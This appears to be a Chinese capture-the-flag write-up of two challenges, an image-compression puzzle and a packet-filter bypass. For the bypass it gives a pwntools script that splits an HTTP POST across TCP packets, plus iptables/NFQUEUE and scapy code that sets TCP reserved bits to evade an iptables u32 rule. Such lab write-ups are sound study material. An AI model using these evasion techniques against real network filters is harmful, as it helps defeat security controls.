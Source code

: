 ## 🪐 低带宽星球 （部分完成）

确实中间加一问体验会更好一点  

纯色压缩，位图肯定比不上矢量图。手写svg以不到300个字节通过了第一关，然后第二关被彻底卡住（最好情况用svgz达到了106字节）  

找到了一个有趣的格式 iconvg https://github.com/google/iconvg/tree/main ，看起来应该能达到50字节的目标，但很遗憾libvips并不支持  
找libvips支持的格式 https://github.com/libvips/libvips/blob/df8b8e247ed410138fcacec2f43f0c5c16aecc37/libvips/foreign/foreign.c#L654 ，jpeg-xl就在其中但第一时间就忽略了（思路一直局限在二进制格式的矢量图；看到wiki说它是位图就直接放了，而且jpeg-xl的前缀也造成了刻板印象以为跟jpeg文件一样会很大。。。没想到这就是题目答案）  

## Komm, süsser Flagge （部分完成）

第一关只要让POST拆分到两个TCP包中即可绕过检查：

```python
from pwn import *

token = "<>"

payload1 = f"""POST / HTTP/1.1\r\nHost: 202.38.93.111\r\nContent-Length: {len(token)}\r\n\r\n{token}"""

def solve1():
    s = remote("202.38.93.111", 18080)
    s.send(payload1[:3])
    sleep(3)
    s.send(payload1[3:])
    s.interactive()

solve1()
```


然后，第二关硬是卡了相当长时间（做题太规矩了，竟然没想到直接试试用第一关的exp打第二关……）  

找到一篇文档 http://www.stearns.org/doc/archives/iptables-u32.v0.1.4.html 猜到了要利用reserved（p.s.这个词总是打成reversed）bit搞事情，但苦于不知道如何改包头。  
第一轮试验，找各种用rawsocket实现的tcp协议栈，但大部分都跑不起来，不知道原因  
第二轮试验，得知了python的scapy库能构造各种包并发送，但是无论怎么搞，发了syn包就会卡在sr1函数调用上，折腾不明白  

后来，得知了nfqueue，可以实时劫持数据包，借此做出了第二题：  

准备工作：网络环境有点复杂（至少两层路由器的nat+虚拟机的nat），保守起见直接连入给的openvpn，然后iptables配置数据包转发到nfqueue  
```shell
sudo openvpn hg-guest.ovpn
sudo iptables -A OUTPUT -o hgovpn-guest -p tcp -j NFQUEUE --queue-num 1
```
用scapy拦截所有queue中的数据包，设置tcp包头的reserved字段为1绕开检查（代码基于chatgpt生成再人工修改）：  
```python
from scapy.all import *
from netfilterqueue import NetfilterQueue as nfq

def packet_callback(packet):
    pkt = IP(packet.get_payload())
    print(pkt.show())

    pkt[IP].ttl = 64

    pkt[TCP].reserved = 15
    del pkt[IP].chksum
    del pkt[TCP].chksum

    print(pkt.show())

    packet.set_payload(bytes(pkt))
    packet.accept()
```